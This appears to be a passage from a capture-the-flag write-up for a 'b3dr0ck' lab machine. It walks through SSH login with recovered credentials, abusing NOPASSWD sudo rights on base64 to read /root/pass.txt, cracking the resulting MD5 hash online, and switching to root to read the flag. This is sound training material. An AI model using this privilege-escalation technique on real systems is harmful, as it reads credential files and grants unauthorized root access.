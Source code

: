                                                                                  

Welcome: 'Fred Flintstone' is authorized.
b3dr0ck> help
Password hint: [Redacted] (user = 'Fred Flintstone')
b3dr0ck> 

you can just ssh in with those creds (obvious the user is fred not Fred Flintstone this is only the owner of the certificate)

fred@b3dr0ck:/usr/share/abc/dist$ sudo -l
Matching Defaults entries for fred on b3dr0ck:
    insults, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User fred may run the following commands on b3dr0ck:
    (ALL : ALL) NOPASSWD: /usr/bin/base32 /root/pass.txt
    (ALL : ALL) NOPASSWD: /usr/bin/base64 /root/pass.txt

fred@b3dr0ck:/usr/share/abc/dist$ sudo /usr/bin/base64 /root/pass.txt | base64 -d
L[REDACTED]K

putting this in cyberchef gives an md5 hash
and crackstation cracks this md5 and gives us the password in plaintext
fred@b3dr0ck:/usr/share/abc/dist$ su - root
Password: 
root@b3dr0ck:~# cat /root/root.txt
THM{REDACTED}


